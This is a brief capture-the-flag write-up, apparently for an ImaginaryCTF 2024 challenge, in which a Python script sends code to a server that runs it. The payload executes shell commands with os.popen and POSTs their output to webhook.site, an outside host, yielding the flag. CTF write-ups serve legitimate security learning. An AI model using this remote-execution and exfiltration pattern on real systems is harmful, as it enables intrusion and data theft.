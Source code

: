 ```yaml
---
created: 2024-07-19T16:06
updated: 2024-07-21T16:11
points: 100
solves: 247
---
```


We are sending code to the server... and the server is running it.

Easiest ever RCE?

```python
import requests

while True:
    payload=f"""
from urllib.request import urlopen, Request
import os
httprequest = Request('	https://webhook.site/',data=os.popen('{input("$ ").strip()}').read().encode(),method='POST')
urlopen(httprequest)""".strip()
    requests.post("http://p2c.chal.imaginaryctf.org/", data={"code": payload})
    
# $ ls
# $ cat flag.txt
# ictf{d1_color_picker_fr_2ce0dd3d}
```
